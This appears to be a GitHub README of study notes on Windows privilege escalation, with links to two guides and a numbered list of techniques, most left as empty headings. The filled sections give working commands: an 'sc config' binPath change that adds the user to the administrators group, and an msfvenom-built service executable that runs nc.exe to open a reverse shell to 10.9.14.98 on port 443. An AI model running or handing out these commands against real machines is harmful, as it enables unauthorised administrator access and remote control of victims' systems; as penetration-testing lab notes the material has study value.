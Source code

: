 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------

4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------

6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------

7- Password minig (Registry):
-------------------------------------------------------------------------------------------

8- Password mining (Memory)
-----------------------------------------------------------------------------------------

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------

10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

11- Startup applications:
--------------------------------------------------------------------------------------------

12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
